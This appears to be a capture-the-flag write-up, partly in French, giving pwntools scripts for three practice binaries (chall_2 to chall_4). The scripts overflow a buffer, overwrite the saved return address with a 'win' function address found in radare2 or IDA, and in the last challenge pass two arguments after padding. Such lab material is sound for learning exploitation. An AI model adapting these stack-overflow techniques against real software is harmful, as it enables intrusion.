 
#### Chall 2

```python
#!/bin/python3

from pwn import *
io = process('./chall_2')
payload = b"A"*0x100
payload += b"ZzzzZzzz"
print(payload)
io.sendlineafter(b"?", payload)
io.interactive()
io.close()
```

#### Chall 3

```python
#!/bin/python3

from pwn import *

g = cyclic_gen()
a = g.get(100)

io = process('./chall_3')
payload = (b"A"*0x100)
payload += b"ZzzzZzzz"
#payload += a   # ajout du cyclique
payload += (b"A"*12)
# grace au cyclique ça crache et en regardant les logs noyau (dmesg | tail)
# on sait que ça s'arrete à aaaabaaacaaa (6161616...) donc 12
payload += p32(0x080491a6)  # on met adresse de la fonction win que l'on trouve dans radare2
io.sendlineafter(b"?", payload)
io.interactive()
io.close()
```

#### Chall 4

```python
#!/bin/python3

from pwn import *

winaddr = 0x080491b6
arg1 = 0x1020304
arg2 = 0x5060708

io = process('./chall_4')
payload = (b"A"*0x100)
payload += b"ZzzzZzzz"
payload += (b"A"*12)
payload += p32(winaddr)  # on met adresse de la fonction win que l'on trouve dans radare2
payload += (b"PADD") # car "sub esp, 4"
payload += p32(arg1)
payload += p32(arg2)

io.sendlineafter(b"?", payload)
io.interactive()
io.close()
```
Dans ce challenge il faut bien ajouter un padding de 4 (PADD) pour accéder à l'adresse mémoire des key que nous avons trouvé sur IDA après le sEIP que nous avons modifié chall 3 pour accéder a la fonction Win
